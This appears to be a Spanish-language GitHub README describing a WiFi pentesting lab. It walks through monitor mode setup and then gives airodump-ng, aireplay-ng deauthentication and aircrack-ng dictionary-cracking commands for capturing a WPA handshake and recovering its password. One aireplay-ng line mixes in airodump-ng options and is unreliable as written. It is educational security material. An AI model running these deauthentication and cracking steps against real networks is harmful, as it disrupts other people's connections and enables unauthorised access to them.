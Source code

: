 # Pentesting Wifi

En esta practica demostraremos lo "sencillo" que puede resultar sacar con fuerza bruta una contraseña WiFi si esta no es segura.

## Configuración MV

El primero de los pasos sería configurar el entorno virtual de forma que podamos utilizar el adaptador de red USB para posteriormente ponerlo en modo monitor.

En esta ocasión hemos utilizado QEMU/KVM y la configuración de este apartado es tan fácil como agregar el XML con el puntero de que dispositivo USB es el que queremos conectar:

```xml
<hostdev mode="subsystem" type="usb" managed="yes">
  <source>
    <vendor id="0x2357"/>
    <product id="0x010c"/>
    <address bus="3" device="6"/>
  </source>
  <alias name="hostdev0"/>
  <address type="usb" bus="0" port="4"/>
</hostdev>
```

De esta forma la máquina ya será capaz de detectar el nuevo adaptador inalámbrico.

![usb](img/0%20usb.png)

## Drivers

La instalación de los drivers es un paso un poco tricky ya que debemos buscar los drivers del chip de nuestro adaptador en este caso un [rtl8188eus](https://github.com/drygdryg/rtl8188eus) agregar la excepción a la lista negra y compilarlos, tras reiniciar la máquina podremos poner el adaptador en modo monitor.

**Ejemplo de script de instalación**
![drivers](img/2%20drivers.png)

**Adaptador configurado**
![adapter](img/1%20adaptador.png)

## Preparación

Una vez tengamos nuestro super adaptador debemos ponerlo en modo monitor, de esta forma el chip no trabajará como un adaptador de red normal sino que será capaz de sacar mucha mas información de la que de normal puede extraer. En mi caso el adaptador tiene un nombre muy largo así que a lo largo me referire al adaptador inalambrico por el nombre generico wlan0, es posible que en tu caso no se llame exactamente igual.

```bash
$sudo ifconfig wlan0 down
$sudo airmon-ng check kill
$sudo iwconfig wlan0 mode monitor
$sudo ifconfig wlan0 up
$iwconfig

#Vemos en mode:monitor
```

![monitor](img/3%20mode%20monitor.png)

**Test modo monitor**

```bash
$sudo aireplay-ng --test wlan0
```

![aireplay](img/4%20test%20airreplay.png)

## Ataque

El ataque consiste en sacar la contraseña del punto de acceso mediante un ataque de diccionario gracias a haber deautenticado a un cliente conectado y haber capturado el handshake.

Lo primero que debemos hacer es conocer las redes que nos rodean con airodump:

```bash
$ airodump-ng <Interfaz ej:wlan0>
```

Luego deautenticar a sus clientes:

![handshake](img/5%20hanshake.png)

```bash
$ aireplay-ng -c <CHANNEL> -a <MACSSID> -w <nombreFichero> <Interfaz ej:wlan0>
or
$ aireplay-ng -0 1 -a <MACSSID> -c <MACCliente> <Interfaz ej:wlan0>
```

![air](img/6%20airdum.png)


Finalmente con el handshake interceptado, crackearlo:

```bash
aircrack-ng -w <DICCIONARIO> -b <MACSSID> <nombreFichero>*.cap
```

![final](img/6%20key found.png)